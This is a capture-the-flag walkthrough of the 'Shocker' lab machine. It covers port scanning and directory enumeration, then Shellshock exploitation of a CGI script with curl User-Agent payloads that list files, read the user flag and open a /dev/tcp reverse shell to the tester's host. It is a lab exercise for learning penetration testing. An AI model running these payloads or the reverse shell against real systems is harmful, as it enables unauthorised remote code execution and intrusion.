 # Shocker

![image](https://user-images.githubusercontent.com/5285547/124322481-6e1e4200-db77-11eb-9e65-04c366f56e6c.png)

# Nmap 

```
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1
```

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Running dirb tool 
```
dirb http://10.10.10.56/  

http://10.10.10.56/cgi-bin/ (CODE:403|SIZE:294)                                                                  
http://10.10.10.56/index.html (CODE:200|SIZE:137) 
```

Noting the name of the box, I can tell this is going to be a shellshock vunerability with the cgi-bin directory its a given! 

/cgi-bin/
```
gobuster dir -u http://10.10.10.56/cgi-bin/ -w  /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt    -t 30 -x .txt,.html,.php,.bk,.gz,.png,.sh -s 403,200

/user.sh              (Status: 200) [Size: 118]
```

## ShellShock

- Basic usage (Exploit)



```
curl http://10.10.10.56/cgi-bin/user.sh -A "() { :;}; echo 'Content-Type: text/plain';echo; /bin/ls"
```
```
user.sh
```

Lets get the user of the box in /home

```
curl http://10.10.10.56/cgi-bin/user.sh -A "() { :;}; echo 'Content-Type: text/plain';echo; /bin/ls /home"
```
```
shelly
```

We can get the user flag now then work on getting on the box properly via a reverse shell 

```
curl -v http://10.10.10.56/cgi-bin/user.sh -A "() { :;}; echo 'Content-Type: text/plain';echo; /bin/cat /home/shelly/user.txt"
```

Flag
```
beb558c0c62831ab277c9da1ce663157
```

## Reverse Shell

```
curl -v http://10.10.10.56/cgi-bin/user.sh -A "() { :;}; echo 'Content-Type: text/plain';echo; /bin/sh -i >& /dev/tcp/10.10.14.184/9999 0>&1"
```
```
stty raw -echo;fg
reset
xterm
export TERM=xterm
export SHELL=bash
```



